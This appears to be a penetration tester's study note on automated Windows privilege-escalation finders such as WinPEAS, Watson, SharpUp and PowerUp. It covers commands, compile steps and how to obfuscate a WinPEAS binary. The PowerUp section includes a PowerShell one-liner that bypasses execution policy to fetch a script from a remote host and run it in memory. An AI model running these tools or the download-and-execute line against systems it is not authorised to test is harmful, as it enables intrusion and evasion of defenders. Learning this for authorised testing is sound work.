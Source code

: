 # Automated Issues Finders

## WinPEAS

- Tool for finding priv esc paths in windows
- Performs a lot of checks to then go through
- uses colour highlighting to find information quickly

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

- .exe and .bat file
- can download obfuscated version or compile

### Commands

```
winpeas.exe cmd searchall searchfast #cmd commands, search all filenames and avoid sleepig (noisy - CTFs)
winpeas.exe #Will execute all checks except the ones that use a CMD
winpeas.exe cmd #All checks
winpeas.exe systeminfo userinfo #Only systeminfo and userinfo checks executed
winpeas.exe notcolor #Do not color the output
```

### Compile

- install dotfuscator
- **Compile** winpeas in VisualStudio
- **Open dotfuscator** app
- **Open** in dotfuscator **winPEAS.exe compiled** before and **Microsoft.Win32.TaskScheduler.dll** (is in the same folder as winPEAS.exe)
- Click on **Build**
- The **single, minimized and obfuscated binary** will appear in a **folder called Dotfuscator inside the folder were winPEAS.exe** and the DLL were (this location will be saved by dotfuscator and by default all the following builds will appear in this folder).

## Watson

https://github.com/rasta-mouse/Watson

- Enumerates missing KB's and suggests exploits
- You need to know the version of .net running on the target system

```
C:\windows\microsoft.net\framework\
```



### Compiling

- Open in Visual Studio
- Solution Explorer > Properties > Target Framework
- Make the value align with the version of .net running on the target
- Build the project

### Commands

```
C:/> watson.exe
```

## SharpUp

https://github.com/GhostPack/SharpUp

- C# port of PowerUp

### Compile

- Open the .sln in Visual Studio
- choose "release"
- Build

### commands

```
SharpUp.exe audit
SharpUp.exe audit UnquotedServicePath
```



## PowerUp

https://github.com/PowerShellMafia/PowerSploit/tree/dev/Privesc

### Commands

```
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
```

To Download and run in memory:

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/PowerUp.ps1');Invoke-AllChecks"
```

## Windows-Exploit-Suggester

https://github.com/AonCyberLabs/Windows-Exploit-Suggester

- You run locally on your machine, and give it the systeminfo input from the system you are reviewing

### Commands

```
windows-exploit-suggester.py --update

windows-exploit-suggester.py --database blah.xlsx --systeminfo blah.txt
```

## Metasploit

- Metasploit has a post exploitation module

```
run post/multi/recon/local_exploit_suggester
```

